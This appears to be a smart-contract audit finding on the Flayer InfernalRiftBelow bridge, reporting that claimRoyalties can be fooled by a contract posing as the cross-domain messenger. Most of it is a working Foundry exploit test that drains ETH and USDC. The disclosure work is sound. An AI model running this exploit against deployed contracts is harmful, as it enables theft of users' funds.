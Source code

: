 Gentle Eggplant Trout

High

# malicious user can steal all tokens in the ERC721Bridgable contract

## Summary
Malicious user can bypass check in the claimRoyalties function in infernalRiftBelow to steal tokens in the ERC721Bridgable conract.
## Vulnerability Detail
Malicious user can impersonate as CrossDomainMessenger to bypass check in the claimRoyalties function to then steal all tokens in the ERC721Bridgable contract.
## Impact
High all tokens can be stolen.
## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/main/moongate/src/InfernalRiftBelow.sol#L222
## Tool used

Manual Review
##POC 
#riftTest contract
```solidity
function test_attackclaim() public {
        // Set the royalty information for the L1 contract
        address BOB = address(123);
        l1NFT.setDefaultRoyalty(address(this), 1000);

        // Create an ERC721 that implements ERC2981 for royalties
        _bridgeNft(address(this), address(l1NFT), 0);

        // Get our 'L2' address
        Test721 l2NFT = Test721(riftBelow.l2AddressForL1Collection(address(l1NFT), false));

        // Add some royalties (10 ETH and 1000 USDC) onto the L2 contract
        deal(address(l2NFT), 10 ether);
        deal(address(USDC), address(l2NFT), 1000 ether);

        assertEq(USDC.balanceOf(BOB), 0 ether, 'Invalid BOB USDC');
        assertEq(payable(BOB).balance, 0 ether, 'Invalid BOB ETH');
        vm.startPrank(BOB);
        attt k = new attt(address(riftBelow), address(this));
        k.attack(address(l1NFT));
        // Set up our tokens array to try and claim native ETH
        address[] memory tokens = new address[](2);
        tokens[0] = address(0);
        tokens[1] = address(USDC);
        vm.stopPrank();
        assertEq(USDC.balanceOf(BOB), 999 ether, 'Invalid BOB USDC');
        assertEq(payable(BOB).balance, 10 ether, 'Invalid BOB ETH');

        
    }
```

```solidity 
contract attt is ICrossDomainMessenger{
    InfernalRiftBelow riftBelow;
    RiftTest l;
     constructor(address a, address k){
         riftBelow = InfernalRiftBelow(a);
         l = RiftTest(k);
     }
     
     function sendMessage(address _target, bytes calldata _message, uint32 _minGasLimit) external payable {
        
     }
    function xDomainMessageSender() external override view returns (address){
         return address(l.riftAbove());
     }

     function attack(address a) external{
        address[] memory tokens = new address[](2);
        tokens[0] = address(0);
        tokens[1] = address(l.USDC());

        riftBelow.claimRoyalties(a, msg.sender, tokens);
     }

}
```

## Recommendation

